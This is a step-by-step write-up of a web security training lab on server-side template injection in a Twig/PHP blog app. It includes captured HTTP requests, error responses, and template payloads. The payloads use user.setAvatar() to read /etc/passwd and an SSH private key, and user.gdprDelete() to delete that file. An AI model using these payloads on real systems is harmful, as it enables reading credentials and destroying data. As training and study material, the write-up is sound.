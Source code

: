 # Server-side template injection with a custom exploit

## Description

 This lab is vulnerable to server-side template injection. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter` and post a comment on one of the blogs.
2. Go to the "My account" page. Notice that the functionality for setting a preferred name is vulnerable to server-side template injection, and that you have access to the user object.

```text
POST /my-account/change-blog-post-author-display HTTP/1.1
Host: 0aa10086032826fac0fb869a007b007d.web-security-academy.net
Cookie: session=weVRd6xjRJcAO1mP22aj4F8fT9rTzBAf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net
Referer: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

blog-post-author-display=user.first_name&csrf=TmMgLY1pTzScQv6xgJGRNiWHptf3lzdf
```

3. Investigate the custom avatar functionality. Notice that when you upload an invalid image, the error message discloses a method called `user.setAvatar()`. Also take note of the file path `/home/carlos/User.php`. You will need this later.

**Request**:

```text
POST /my-account/avatar HTTP/1.1
Host: 0aa10086032826fac0fb869a007b007d.web-security-academy.net
Cookie: session=weVRd6xjRJcAO1mP22aj4F8fT9rTzBAf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------161787197129286381834010908465
Content-Length: 493
Origin: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net
Referer: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------161787197129286381834010908465
Content-Disposition: form-data; name="avatar"; filename="nonsense.txt"
Content-Type: text/plain

nonsense

-----------------------------161787197129286381834010908465
Content-Disposition: form-data; name="user"

wiener
-----------------------------161787197129286381834010908465
Content-Disposition: form-data; name="csrf"

TmMgLY1pTzScQv6xgJGRNiWHptf3lzdf
-----------------------------161787197129286381834010908465--
```

**Response**

```text
HTTP/1.1 500 Internal Server Error
Content-type: text/html; charset=UTF-8
Connection: close
Content-Length: 290

<pre>PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/nonsense.t...', 'text/plain')
#1 {main}
  thrown in /home/carlos/User.php on line 28
</pre>
```

4. Upload a valid image as your avatar and load the page containing your test comment.
5. In Burp Repeater, open the POST request for changing your preferred name and use the `blog-post-author-display` parameter to set an arbitrary file as your avatar:

```text
user.setAvatar("/etc/passwd")
```
    
6. Load the page containing your test comment to render the template. 

```text
Internal Server Error

PHP Fatal error: Uncaught ArgumentCountError: Too few arguments to function User::setAvatar(), 1 passed in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Extension/Core.php on line 1601 and exactly 2 expected in /home/carlos/User.php:26 Stack trace: ...
```

7. Notice that the error message indicates that you need to provide an image `MIME` type as the second argument. Provide this argument and view the comment again to refresh the template:

```text
user.setAvatar('/etc/passwd','image/jpeg')
```
    
7. To read the file, load the avatar using `GET /avatar?avatar=wiener`. This will return the contents of the `/etc/passwd` file, confirming that you have access to arbitrary files.

![SSTI](../../_static/images/ssti4.png)

8. Repeat this process to read the PHP file that you noted down earlier:

```text
user.setAvatar('/home/carlos/User.php','image/jpeg')
```
    
9. Reload the blog post with the comment and load the avatar using `GET /avatar?avatar=wiener` again. 

![SSTI](../../_static/images/ssti5.png)

In the PHP file, Notice that you have access to the `gdprDelete()` function, which deletes the user's avatar. You can combine this knowledge to delete Carlos's file.

10. First set the target file as your avatar, then view the comment to execute the template:

```text
user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
```
    
11. Invoke the `user.gdprDelete()` method and view your comment again to solve the lab.

```text
blog-post-author-display=user.gdprDelete()&csrf=TmMgLY1pTzScQv6xgJGRNiWHptf3lzdf
```

## Exploitability

An attacker will need to create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.
